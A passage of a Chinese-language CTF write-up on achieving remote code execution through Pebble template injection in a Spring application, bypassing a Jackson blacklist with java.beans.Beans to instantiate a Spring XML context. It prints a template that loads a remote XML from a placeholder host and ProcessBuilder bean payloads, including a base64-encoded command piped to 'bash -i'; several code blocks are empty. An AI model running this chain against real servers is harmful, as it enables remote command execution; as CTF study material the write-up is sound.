

因此有了这个我们便可以加载任意类了

```

```

但是我们需要获得一个类实例，但是我们不能去调用它的任何方法毕竟是class类，很好的一点是这里有jackson🤪，beans对象里也能直接获取到，解决一切问题

```

```

因此我们能获得一个类的实例以后rce就相对“简单”了🤪，比如说

```java
ScriptEngineManager engineManager = new ScriptEngineManager();
ScriptEngine engine = engineManager.getEngineByName("js");
engine.eval("xxxx");
```

但题目当中环境是jdk18，发现engineManager.getEngineByName里面裤子都不剩了啥都没有，看来这个方法也是没用的，同时由于jackson实例化限制我们也不能直接实例化jshell

此时灵机一动我又想到两个类，它们实例化加载配置文件可以造成rce

- org.springframework.context.support.ClassPathXmlApplicationContext
- org.springframework.context.support.FileSystemXmlApplicationContext

但是脸黑啊，环境里面jackson有限制，继承了AbstractPointcutAdvisor/AbstractApplicationContext这两个类的都不行，心里xxx



这时候怎么办呢？那classpath下有没有某个类可以帮助我们实例化任意对象呢？

### 另类绕过Jackson黑名单限制

当然有哒！也就是java.beans.Beans类，这个类可以帮助我们实例化任意方法

```java
public static Object instantiate(ClassLoader cls, String beanName) throws IOException, ClassNotFoundException {
  return Beans.instantiate(cls, beanName, null, null);
}
```

这里的参数cls可以不传，为null则会默认调用ClassLoader.getSystemClassLoader();获取一个classloader

```java
public static Object instantiate(ClassLoader cls, String beanName,
                                 BeanContext beanContext,
                                 AppletInitializer initializer)
  throws IOException, ClassNotFoundException {

  InputStream ins;
  ObjectInputStream oins = null;
  Object result = null;
  boolean serialized = false;
  IOException serex = null;

  // If the given classloader is null, we check if an
  // system classloader is available and (if so)
  // use that instead.
  // Note that calls on the system class loader will
  // look in the bootstrap class loader first.
  if (cls == null) {
    try {
      cls = ClassLoader.getSystemClassLoader();
    } catch (SecurityException ex) {
      // We're not allowed to access the system class loader.
      // Drop through.
    }
  }
```

之后的逻辑我们不需要关注那个二次反序列化的部分,在后面可以看到可以实例化任意public修饰的构造方法

```java
if (result == null) {
  // No serialized object, try just instantiating the class
  Class<?> cl;

  try {
    cl = ClassFinder.findClass(beanName, cls);
  } catch (ClassNotFoundException ex) {
    // There is no appropriate class.  If we earlier tried to
    // deserialize an object and got an IO exception, throw that,
    // otherwise rethrow the ClassNotFoundException.
    if (serex != null) {
      throw serex;
    }
    throw ex;
  }

  if (!Modifier.isPublic(cl.getModifiers())) {
    throw new ClassNotFoundException("" + cl + " : no public access");
  }

  /*
             * Try to instantiate the class.
             */

  try {
    result = cl.newInstance();
  } catch (Exception ex) {
    // We have to remap the exception to one in our signature.
    // But we pass extra information in the detail message.
    throw new ClassNotFoundException("" + cl + " : " + ex, ex);
  }
}
```

### 最终构造实现RCE

最终模板文件构造

```



{{ yyy.setConfigLocation("http://xxxx/1.xml") }}
{{ yyy.refresh() }}
```

1.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

本地弹出了计算器，那么现在则可以开始着手解题了，

构造命令`./getflag > /tmp/flag`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>echo Li9nZXRmbGFnID4gL3RtcC9mbGFn|base64 -d|bash -i</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

先用burp狂轰乱炸，看到页面有回显的说明执行成功



再包含进来就ok了



## 参考文章

[远古pebble模板注入payload](https://gingsguard.github.io/server-side-template-injection-on-the-example-of-pebble/)

[Determine if a Process Runs Inside a Container](https://www.baeldung.com/linux/is-process-running-inside-container)
